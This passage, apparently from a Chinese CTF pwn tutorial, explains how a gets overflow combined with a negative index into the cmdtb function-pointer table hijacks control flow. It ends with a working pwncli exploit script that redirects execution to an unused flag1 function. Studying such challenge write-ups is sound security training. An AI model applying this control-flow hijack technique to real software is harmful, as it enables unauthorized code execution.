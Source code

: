 这里需要注意的一点是，gets 函数往往是造成缓冲区溢出的罪魁祸首，它在遇到字符串中的 `\x00` 等字符时并不会停下，而会一直向缓冲区中读入数据直到换行符的出现。

以及 run 函数中：

```c
// ...
int cmd;
// ...
cmd = get_a_num();
// ...
return ((__int64 (__fastcall *)(__int64, _QWORD, _QWORD))cmdtb[cmd])(buf_0, v17, v15);
```

也就是说这里 cmd 是一个 int 类型，可以为负数，这就导致了调用函数指针 `cmdtb[cmd]()` 时能调用它前面的缓冲区上，来到 .bss 段上发现 cmdtb 前面正是上面 gets 的缓冲区：

```nasm
.bss:00000000004C4300                 public input
.bss:00000000004C4300 ; u32 input[64]
.bss:00000000004C4300 input           dd 40h dup(?)           ; DATA XREF: get_a_num+8↑o
.bss:00000000004C4300                                         ; get_a_num+19↑o
.bss:00000000004C4400                 public cmdtb
.bss:00000000004C4400 ; __int64 cmdtb[]
.bss:00000000004C4400 cmdtb           dq ?
```

于是很自然地可以想到，用 `get_a_num` 控制输入，用 cmdtb 对函数指针的调用去劫持程序控制流。

回到函数列表中，发现本道例题设计时提供了一个名为 flag1 的函数但是并没有被调用，那我们只需要按照上述思路劫持控制流到 flag1 的地址即可，`exp_flag1.py` 如下：

```python
#!/usr/bin/env python3
#-*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port
from pwncli import *
cli_script()

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc
i2b = lambda c : str(c).encode()
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
debugB = lambda : input("\033[1m\033[33m[ATTACH ME]\033[0m")
def cmd(data):
    ru(b'cmd> ')
    sl(data)
def call_func(data, idx, key=b""):
    cmd(data)
    ru(b'offset: ')
    sl(i2b(idx))
    if data[:2] == b"1\x00":
        ru(b'data: ')
        sl(key)

call_func(b"-31\x00".ljust(8, b"\x00") + p64(elf.symbols["flag1"]), 0)
ia()
```
